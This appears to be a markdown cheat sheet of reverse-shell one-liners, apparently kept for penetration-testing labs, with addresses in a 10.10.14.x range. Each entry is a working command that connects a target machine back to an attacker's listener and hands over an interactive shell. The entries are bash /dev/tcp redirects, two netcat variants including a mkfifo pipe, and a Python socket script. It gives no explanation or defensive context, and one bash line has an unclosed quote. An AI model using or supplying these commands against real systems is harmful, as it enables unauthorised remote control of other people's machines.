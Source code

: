 # Reverse Shells

----------------------------------------------------


### Bash  
`bash -i >& /dev/tcp/10.10.14.10/1234 0>&1`
`bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1`

### Netcat  
`nc -e /bin/bash 10.10.14.5 4444`

### Netcat(2)
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.13 1234 >/tmp/f`

### Python 
`python -c 'import socket,subprocess,os;s=socket.socket( socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
			